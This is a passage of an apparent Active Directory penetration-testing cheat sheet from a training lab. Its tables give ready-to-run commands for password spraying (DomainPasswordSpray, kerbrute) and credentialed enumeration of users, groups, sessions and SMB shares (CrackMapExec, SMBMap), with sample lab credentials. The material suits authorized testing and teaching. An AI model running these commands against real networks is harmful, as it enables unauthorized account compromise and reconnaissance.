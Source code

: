|--------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------|
| `Import-Module [PathToDomainPasswordSpray.ps1]`                          | `Import-Module .\DomainPasswordSpray.ps1`                                                                                       | Imports the DomainPasswordSpray PowerShell script for use in the current session.                                       |
| `Invoke-DomainPasswordSpray -Password [password] -OutFile [file]`       | `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue`                           | Performs a password spray using the provided password and outputs successful logins to the specified file.              |

#### Password Spraying with Kerbrute – from Windows

| Command/Flag                                                             | Example                                                                                                                         | Description                                                                                                              |
|--------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------|
| `kerbrute passwordspray -d [domain] --dc [DC_IP] [user_list] [password]` | `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1`                                        | Performs a Kerberos-based password spray from Windows using a specified user list and password.                         |

---

### Credentialed Enumeration – from Linux

#### CrackMapExec

| Command/Flag                                                                                      | Example                                                                                               | Description                                                                                         |
|---------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------|
| `crackmapexec smb [target IP] -u [username] -p [password] --users`                                | `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users`                                          | Enumerates domain users and displays their attributes, including bad password counts.               |
| `crackmapexec smb [target IP] -u [username] -p [password] --groups`                               | `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups`                                         | Enumerates domain groups and shows member counts.                                                   |
| `crackmapexec smb [target IP] -u [username] -p [password] --loggedon-users`                       | `crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users`                               | Enumerates users currently logged into a specified host.                                             |
| `crackmapexec smb [target IP] -u [username] -p [password] --shares`                               | `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares`                                         | Lists available SMB shares and the user's access level to each.                                     |
| `crackmapexec smb [target IP] -u [username] -p [password] -M spider_plus --share '[ShareName]'`   | `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'`       | Crawls the specified share and records accessible files to JSON output.                              |

#### SMBMap

| Command/Flag                                                                                     | Example                                                                                               | Description                                                                                         |
|--------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------|
| `smbmap -u [username] -p [password] -d [domain] -H [target IP]`                                   | `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5`                                  | Checks access and lists SMB shares and associated permissions.                                       |
| `smbmap -u [username] -p [password] -d [domain] -H [target IP] -R '[share]' --dir-only`           | `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only`| Recursively lists directory structure for a specific share.                                          |

#### rpcclient

| Command/Flag                                              | Example                                  | Description                                                                                     |
|-----------------------------------------------------------|------------------------------------------|-------------------------------------------------------------------------------------------------|